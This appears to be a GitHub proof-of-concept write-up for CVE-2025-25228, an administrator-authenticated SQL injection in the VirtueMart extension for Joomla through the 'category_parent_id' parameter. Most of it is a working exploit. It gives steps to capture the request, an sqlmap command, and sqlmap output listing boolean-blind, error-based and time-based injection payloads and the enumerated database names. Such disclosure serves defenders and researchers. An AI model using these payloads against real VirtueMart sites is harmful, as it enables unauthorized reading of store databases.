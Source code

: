 # CVE-2025-25228: SQL injection in VirtueMart 1.0.0 - 4.4.7 for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-25228

**VirtueMart:** https://extensions.joomla.org/extension/virtuemart/

## Introduction
An authenticated (administrator) SQLi vulnerability exists in VirtueMart for Joomla! v4.2.18 via the 'category_parent_id' parameter under Product Category.

## POC
To exploit this vulnerability go to 'VirtueMart Control Panel >> Products >> Categories >> Category Name >> Pagination >> Edit' and save the edit request (req.txt).

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --dbs --dbms=mysql -p 'category_parent_id' --batch

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
Parameter: MULTIPART category_parent_id ((custom) POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: ------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_name"

Pagination

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

(SELECT (CASE WHEN (7632=7632) THEN 0 ELSE (SELECT 2787 UNION SELECT 4392) END))

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

0 AND GTID_SUBSET(CONCAT(0x716a627a71,(SELECT (ELT(4979=4979,1))),0x716a767171),4979)

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

0 AND (SELECT 4218 FROM (SELECT(SLEEP(5)))cNIy)
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
